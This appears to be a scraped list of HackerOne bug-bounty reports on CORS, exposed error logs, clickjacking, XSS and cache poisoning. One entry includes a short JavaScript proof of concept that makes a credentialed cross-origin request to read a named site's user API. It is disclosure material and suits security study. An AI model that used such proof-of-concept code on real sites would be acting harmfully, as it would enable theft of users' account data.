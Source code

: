 # 15

## [#1183601](https://hackerone.com/reports/1183601)Cross-origin resource sharing misconfig | steal user information

* Asset: app.upchieve.org
* Weakness: Information Disclosure

```javascript
<html>
<script>
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://app.upchieve.org/api/user',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
</script>
</html>
```

[#1139340](https://hackerone.com/reports/1139340)Elmah.axd is publicly accessible leaking Error Log

* Asset: DoD
* Weakness: Information Disclosure

The issue of elmah.axd in AST.NET



## [#1198907](https://hackerone.com/reports/1198907)Clickjacking on profile page leading to unauthorized changes

* Asset: app.upchieve.org
* Weakness: UI Redressing (Clickjacking)

Without X-Frame Options in the HTTP Responses of the page



## [#1171403](https://hackerone.com/reports/1171403)Reflected XSS through ClickJacking

* Asset: DoD
* Weakness: XSS

Using clickhijack trigger reflected XSS



[\
\#942629](https://hackerone.com/reports/942629)Denial of service via cache poisoning on https://www.data.gov/
-------------------------------------------------------------------------------------------------------------

* Asset:  DoD
* Weakness: DDoS



